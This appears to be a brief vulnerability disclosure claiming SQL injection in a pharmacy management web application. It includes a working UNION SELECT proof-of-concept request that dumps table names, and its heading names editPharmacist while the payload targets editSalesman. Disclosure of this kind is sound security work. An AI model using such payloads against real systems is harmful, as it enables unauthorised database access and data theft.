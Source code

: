 ## editPharmacist

**Description of the vulnerability**
pharmacy_Management_System latest version has SQL injection via editPharmacist, which can get information about the database and even GetShell via SQL injection.



**Vulnerability recurrence**

![image-20240723142715784](https://github.com/user-attachments/assets/47b8c5fe-4fec-4ef9-a784-4d650be36ab5)

![image-20240723142737947](https://github.com/user-attachments/assets/0494658e-5793-42eb-85f6-6c57405720d5)

POC

```
GET /index.php?action=editSalesman&id=10}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

Result

![image-20240723142821268](https://github.com/user-attachments/assets/9d0df26d-e511-4810-b86e-e6972ffc1657)

